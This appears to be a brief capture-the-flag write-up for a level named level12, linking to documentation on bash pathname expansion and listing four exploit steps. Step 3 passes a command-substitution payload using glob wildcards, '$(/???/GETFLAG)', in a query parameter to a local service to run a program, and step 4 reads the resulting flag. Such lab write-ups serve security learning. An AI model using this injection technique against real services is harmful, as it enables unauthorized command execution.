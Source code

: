 ### Documentation
[Pathname expension](https://datacadamia.com/lang/bash/pathname_expansion)

### External
```
Bash    GETFLAG
```

### Exploit
1. `./send level12 ./level12/Ressources/GETFLAG`

2. `cp GETFLAG /tmp`

3. `curl 'localhost:4646?x=$(/???/GETFLAG)'`

4. `cat /tmp/flag`